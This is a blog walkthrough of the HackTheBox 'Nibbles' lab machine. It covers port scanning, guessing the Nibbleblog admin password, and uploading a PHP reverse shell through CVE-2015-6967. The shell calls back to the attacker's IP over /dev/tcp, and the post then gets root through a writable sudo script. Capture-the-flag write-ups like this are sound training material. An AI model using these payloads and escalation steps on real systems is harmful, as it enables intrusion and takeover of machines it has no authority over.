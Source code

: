 ```yaml
---
layout: post
title: HackTheBox - Nibbles
date: 2020-12-23 23:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nibbleblog, default credentials, CVE-2015-6967, metasploit, meterpreter, reverse-shell, sudo misconfiguration, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/nibbles/nibbles.png
---
```


## Foothold

### `nmap` scan (open ports)

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Nibbles-full-port-scan.txt 10.10.10.75
Warning: 10.10.10.75 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 65508 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
4418/tcp  filtered axysbridge
{% endhighlight %}

### Apache/4.18 (port 80)

By inspecting the sources on port 80, we see there is a hidden directory `/nibbleblog/`:

![view-source-hidden-dir](/assets/img/htb/machines/linux/easy/nibbles/view-source-hidden-dir.png)

Once we wo to his "hidden" directory we see that is qa website powered by [**Nibbleblog**](http://www.nibbleblog.com/), which turns out to be an open source CMS for blogs: 

![nibbleblog](/assets/img/htb/machines/linux/easy/nibbles/nibbleblog.png)

While I was navigating on the website, I encountered the following error:

![XML error](/assets/img/htb/machines/linux/easy/nibbles/XML-error.png)

Maybe there is something to do with it, but let's continue our enumeration.

#### Nibbleblog

Since I'm looking for more information, I ran `dirb` on [http://10.10.10.75/nibbleblog/](http://10.10.10.75/nibbleblog/):

![dirb](/assets/img/htb/machines/linux/easy/nibbles/dirb.png)

On [http://10.10.10.75/nibbleblog/README](http://10.10.10.75/nibbleblog/README), we get the version number (`v4.0.3`) of **Nibbleblog**:

![version](/assets/img/htb/machines/linux/easy/nibbles/version.png)

Bibbidi-Bobbidi-Boo...there is an exploit available!

![searchsploit](/assets/img/htb/machines/linux/easy/nibbles/searchsploit.png)

But it requires credentials so we have to go further:

![exploit-options](/assets/img/htb/machines/linux/easy/nibbles/exploit-options.png)

#### Credentials

I made a quick search &rarr; _"nibbleblog default credentials"_. Unfortunately, I didn't find anything. \

Nevertheless, there is an admin's page: [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php). We can try some basic username/password combinations like `admin/admin`, `root/root` or even `nibbles/nibbles`.

`admin/nibbles` worked:

![success](/assets/img/htb/machines/linux/easy/nibbles/success.png)

#### Metasploit

Let's go back to the exploit:

![msf](/assets/img/htb/machines/linux/easy/nibbles/msf.png)

By doing so, we have a meterpreter. That's nice, but in order to avoid this "black box" method, let's exploit the vulnerability without this tool.

#### [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/) exploitation

Thanks to [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we can follow the steps to perform the exploit:

![packetstorm](/assets/img/htb/machines/linux/easy/nibbles/packetstorm.png)

1. Prepare our PHP reverse shell:

`{% highlight php %}
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'");
{% endhighlight %}

2. Upload our malicious file to [http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image):

![plugins > my image](/assets/img/htb/machines/linux/easy/nibbles/my_image.png)

3. Run a listener &rarr; `nc -lnvp 1234`

4. Visit [http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php). Now we have a shell:

![shell](/assets/img/htb/machines/linux/easy/nibbles/shell.png)

## User (nibbler)

{% highlight bash %}
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
<ml/nibbleblog/content/private/plugins/my_image$ cd /home                    
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls -la
ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 23 15:17 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
e598bb90bc9ff2f87b72e2083c1cb95a
nibbler@Nibbles:/home/nibbler$
{% endhighlight %}

Let's see what we can run with `sudo`:

{% highlight bash %}
$ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
{% endhighlight %}

## Root

Okay so we just have to replace `/home/nibbler/personal/stuff/monitor.sh` by malicious content:

{% highlight bash %}
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b59ce6c276598083872b41d4785c3e8
{% endhighlight %}

___

## Useful links

- [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/)
- [Packetstorm NibbleBlog 4.0.3 Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

